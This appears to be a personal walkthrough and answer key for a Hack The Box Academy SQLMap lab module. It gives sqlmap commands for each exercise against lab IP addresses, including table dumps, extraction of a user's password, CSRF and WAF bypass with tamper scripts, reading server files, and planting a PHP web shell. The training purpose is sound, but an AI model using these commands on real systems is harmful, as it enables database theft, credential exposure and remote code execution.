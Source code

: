 # [HTB_Academy] SQLMap Essentials


## Running SQLMap on an HTTP Request

>**Q. What's the contents of table flag2? (Case #2)**
```bash
sqlmap 'http://94.237.62.6:47094/case2.php' --data 'id=1' --batch --dump
```
>**Q. What's the contents of table flag3? (Case #3)**
```bash
sqlmap -u "http://94.237.62.6:47094/case3.php" --cookie='id=1*' --batch --dump
```
>**Q. What's the contents of table flag4? (Case #4)**
```xml
<?xml version="1.0"?>
<!DOCTYPE items [
<!ELEMENT items (item*)>
<!ATTLIST items burpVersion CDATA "">
<!ATTLIST items exportTime CDATA "">
<!ELEMENT item (time, url, host, port, protocol, method, path, extension, reque>
<!ELEMENT time (#PCDATA)>
<!ELEMENT url (#PCDATA)>
<!ELEMENT host (#PCDATA)>
<!ATTLIST host ip CDATA "">
<!ELEMENT port (#PCDATA)>
<!ELEMENT protocol (#PCDATA)>
<!ELEMENT method (#PCDATA)>
<!ELEMENT path (#PCDATA)>
<!ELEMENT extension (#PCDATA)>
<!ELEMENT request (#PCDATA)>
<!ATTLIST request base64 (true|false) "false">
<!ELEMENT status (#PCDATA)>
<!ELEMENT responselength (#PCDATA)>
<!ELEMENT mimetype (#PCDATA)>
<!ELEMENT response (#PCDATA)>
<!ATTLIST response base64 (true|false) "false">
<!ELEMENT comment (#PCDATA)>
]>
<items burpVersion="2023.1.2" exportTime="Fri Jul 14 10:53:44 CEST 2023">
  <item>
    <time>Fri Jul 14 10:52:04 CEST 2023</time>
    <url><![CDATA[http://94.237.62.6:47094/case4.php]]></url>
    <host ip="94.237.62.6">94.237.62.6</host>
    <port>47094</port>
    <protocol>http</protocol>
    <method><![CDATA[POST]]></method>
    <path><![CDATA[/case4.php]]></path>
    <extension>php</extension>
    <request base64="true"><![CDATA[UE9TVCAvY2FzZTQucGhwIEhUVFAvMS4xDQpIb3N0OiA>
    <status>200</status>
    <responselength>455</responselength>
    <mimetype>HTML</mimetype>
    <response base64="true"><![CDATA[SFRUUC8xLjEgMjAwIE9LDQpEYXRlOiBGcmksIDE0IE>
    <comment></comment>
  </item>
</items>
```
```
The technique characters BEUSTQ refers to the following:

B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries

```
```
Tamper Scripts
Finally, one of the most popular mechanisms implemented in SQLMap for bypassing WAF/IPS solutions is the so-called "tamper" scripts. Tamper scripts are a special kind of (Python) scripts written for modifying requests just before being sent to the target, in most cases to bypass some protection.

For example, one of the most popular tamper scripts between is replacing all occurrences of greater than operator (>) with NOT BETWEEN 0 AND #, and the equals operator (=) with BETWEEN # AND #. This way, many primitive protection mechanisms (focused mostly on preventing XSS attacks) are easily bypassed, at least for SQLi purposes.

Tamper scripts can be chained, one after another, within the --tamper option (e.g. --tamper=between,randomcase), where they are run based on their predefined priority. A priority is predefined to prevent any unwanted behavior, as some scripts modify payloads by modifying their SQL syntax (e.g. ifnull2ifisnull). In contrast, some tamper scripts do not care about the inner content (e.g. appendnullbyte).

Tamper scripts can modify any part of the request, although the majority change the payload content. The most notable tamper scripts are the following:

Tamper-Script	Description
0eunion----------------Replaces instances of UNION with e0UNION
base64encode	----------------Base64-encodes all characters in a given payload
between	----------------Replaces greater than operator (>) with NOT BETWEEN 0 AND # and equals operator (=) with BETWEEN # AND #
commalesslimit	----------------Replaces (MySQL) instances like LIMIT M, N with LIMIT N OFFSET M counterpart
equaltolike	----------------Replaces all occurrences of operator equal (=) with LIKE counterpart
halfversionedmorekeywords	----------------Adds (MySQL) versioned comment before each keyword
modsecurityversioned----------------	Embraces complete query with (MySQL) versioned comment
modsecurityzeroversioned	----------------Embraces complete query with (MySQL) zero-versioned comment
percentage	----------------Adds a percentage sign (%) in front of each character (e.g. SELECT -> %S%E%L%E%C%T)
plus2concat	----------------Replaces plus operator (+) with (MsSQL) function CONCAT() counterpart
randomcase	----------------Replaces each keyword character with random case value (e.g. SELECT -> SEleCt)
space2comment	----------------Replaces space character ( ) with comments `/
space2dash	----------------Replaces space character ( ) with a dash comment (--) followed by a random string and a new line (\n)
space2hash	----------------Replaces (MySQL) instances of space character ( ) with a pound character (#) followed by a random string and a new line (\n)
space2mssqlblank	----------------Replaces (MsSQL) instances of space character ( ) with a random blank character from a valid set of alternate characters
space2plus	----------------Replaces space character ( ) with plus (+)
space2randomblank	----------------Replaces space character ( ) with a random blank character from a valid set of alternate characters
symboliclogical	----------------Replaces AND and OR logical operators with their symbolic counterparts (&& and ||)
versionedkeywords	----------------Encloses each non-function keyword with (MySQL) versioned comment
versionedmorekeywords----------------	Encloses each keyword with (MySQL) versioned comment
To get a whole list of implemented tamper scripts, along with the description as above, switch --list-tampers can be used. We can also develop custom Tamper scripts for any custom type of attack, like a second-order SQLi.
```
```bash
sqlmap -r case4.txt -p id --dump
```

## Attack Tuning

>**Q. What's the contents of table flag5? (Case #5)**

```bash
sqlmap 'http://94.237.62.6:47094/case5.php?id=1' --batch --dump -T flag5 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag6? (Case #6)**

```bash
sqlmap 'http://94.237.62.6:47094/case6.php?col=id' --prefix='`)' -p col --batch --dump -T flag6 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag7? (Case #7)**

```bash
sqlmap 'http://94.237.62.6:47094/case7.php?id=1' --batch --dump -T flag7 --no-cast --union-cols=5
```

## Database Enumeration

>**Q. What's the contents of table flag1 in the testdb database? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb --tables
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb -T flag1 --dump
```

## Advanced Database Enumeration

>**Q. What's the name of the column containing "style" in it's name? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --search -C "style"
```

>**Q. What's the Kimberly user's password? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --dump -D testdb -T users -C name,password --no-cast
```

## Bypassing Web Application Protections

>**Q. What's the contents of table flag8? (Case #8)**

```bash
sqlmap -u "http://94.237.62.6:47094/case8.php" --data="id=1&t0ken=H9AemyR5JmWEZHQhjzVoyE3Q6gc9VMkaezSfg6qIEs" --csrf-token="t0ken" --batch --dump -T flag8
```
 
>**Q. What's the contents of table flag9? (Case #9)**

```bash
sqlmap -u "http://94.237.62.6:47094/case9.php?id=1&uid=1898023378" --randomize=uid --batch --dump -T flag9
```

>**Q. What's the contents of table flag10? (Case #10)**

```bash
sqlmap -u "http://94.237.62.6:47094/case10.php" --data="id=1" --batch --dump -T flag10 --random-agent
```

>**Q. What's the contents of table flag11? (Case #11)**

```bash
sqlmap -u "http://94.237.62.6:47094/case11.php?id=1" --skip-waf --batch --dump -T flag11 --tamper=between
```

## OS Exploitation

>**Q. Try to use SQLMap to read the file "/var/www/html/flag.txt".**

```bash
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-read "/var/www/html/flag.txt"
cat /home/marcos/.local/share/sqlmap/output/94.237.62.37/files/_var_www_html_flag.txt
```

>**Q. Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

```bash
sudo nano shell.php  
```

```php
echo '<?php system($_GET["cmd"]); ?>'
```

```bash
sudo chmod +x shell.php
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
curl http://94.237.62.37:45885/shell.php?cmd=cat+../../../flag.txt
[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

## Skills Assessment

>**Q. What's the contents of table final_flag?**

```bash
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs -D production -T final_flag
```
